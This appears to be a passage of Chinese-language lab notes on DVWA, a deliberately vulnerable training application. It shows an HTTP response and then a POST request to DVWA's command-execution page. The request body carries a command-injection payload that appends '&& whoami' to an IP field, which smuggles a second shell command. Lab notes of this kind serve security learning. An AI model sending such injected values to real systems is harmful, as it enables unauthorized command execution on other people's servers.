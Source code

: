 **GET请求返回包**a

```http
HTTP/1.1 200 OK

Date: Tue, 20 Aug 2019 02:50:43 GMT

Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

X-Powered-By: PHP/5.4.45

Content-Length: 4

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html

test
```

**POST请求包**a

```http
POST /DVWA/vulnerabilities/exec/ HTTP/1.1

Host: 192.168.66.136

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 40

DNT: 1

Connection: keep-alive

Referer: <http://192.168.66.136/DVWA/vulnerabilities/exec/>

Cookie: security=low; PHPSESSID=190krorgsuckk0elaa1tk0v891

Upgrade-Insecure-Requests: 1

ip=127.0.0.1+%26%26+whoami&Submit=Submit
```
